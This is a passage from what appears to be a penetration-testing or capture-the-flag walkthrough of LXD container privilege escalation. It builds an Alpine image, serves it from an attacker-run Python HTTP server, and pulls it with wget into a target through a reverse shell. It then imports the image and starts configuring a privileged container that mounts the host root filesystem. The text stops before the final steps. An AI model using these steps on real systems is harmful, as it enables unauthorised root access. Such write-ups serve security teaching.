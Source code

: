 Let's begin by installing the Go programming language as well as some other required packages.

sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools Then we must clone the LXC Distribution Builder and build it.

Note: If the above make command produces errors and fails to build the distrobuilder binary, you can also install it via the Snap store, as follows:

After the build is complete let's download the Alpine YAML file and build it.

Note: If you installed the binary via the Snap store, replace the final sudo command with the following:

sudo /snap/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18 Once the build is done lxd.tar.xz and rootfs.squashfs will be available in the same folder.

```
git clone https://github.com/lxc/distrobuilder
cd distrobuilder
make
```

```
sudo apt install snapd
sudo snap install distrobuilder --classic
```

```
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```

We will now have to transfer these files to the target system through the usage of a Python HTTP server. Run the following command locally on the same folder.

python3 -m http.server 8000\
Then switch back to the reverse shell on the target system and download the files.

Note: As shown previously the local IP can be acquired through the ifconfig command line utility. Once the transfer finishes, use the ls command to confirm the files transferred successfully.

```
wget http://{local_IP}:8000/lxd.tar.xz
wget http://{local_IP}:8000/rootfs.squashfs
```

The next step is to import the image using the LXC command-line tool.

lxc image import lxd.tar.xz rootfs.squashfs --alias alpine\
To verify that the image has been successfully imported we can list the LXD images.

```
  lxc image list
```

Alpine is correctly shown in the image list. We must now set the security.privileged flag to true, so that the container has all of the privileges that the root file system has. We will also mount the root file system on the container in the /mnt folder.
